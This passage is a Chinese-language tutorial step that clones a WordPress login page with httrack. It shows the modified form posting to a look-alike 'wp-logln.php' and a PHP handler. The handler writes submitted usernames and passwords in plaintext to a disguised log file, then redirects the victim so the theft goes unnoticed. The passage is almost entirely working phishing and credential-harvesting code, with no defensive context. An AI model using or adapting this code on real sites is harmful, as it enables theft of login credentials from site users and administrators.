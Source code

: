 2.使用 httrack 工具克隆 wp\_login.php 前端页面  
[GitHub - xroche/httrack: HTTrack Website Copier, copy websites to your computer (Official repository)](https://github.com/xroche/httrack)  
对表单部分进行修改 在表单后插入代码进行明文密码劫持

```plain
<form name="loginform" id="loginform" action="wp-logln.php" method="post">
  <p>
    <label for="user_login">用户名或电子邮件地址

      <input type="text" name="log" id="user_login" class="input" value="" size="20" /></label>
  </p>
  <p>
    <label for="user_pass">密码

      <input type="password" name="pwd" id="user_pass" class="input" value="" size="20" /></label>
  </p>
  <p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"  /> 记住我</label></p>
  <p class="submit">
    <input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="登录" />
    <input type="hidden" name="redirect_to" value="http://localhost/wp-admin/" />
    <input type="hidden" name="testcookie" value="1" />
  </p>
</form>
```

```plain
<?php
setcookie('redirected','1');
$u=$_POST['log'];
$p=$_POST['pwd'];
if(isset($_POST['log']) && isset($_POST['pwd'])){
    file_put_contents('/var/log/accesss.log',$u.$p);
    session_start();
    $_SESSION['redirected'] = false;
    header('Location: /admin');
}
?>
```

当正常访问登录页面时 就会被重定向到钓鱼页面  
输入账号密码后将重定向到真实登录页面 此时账号密码已被记录  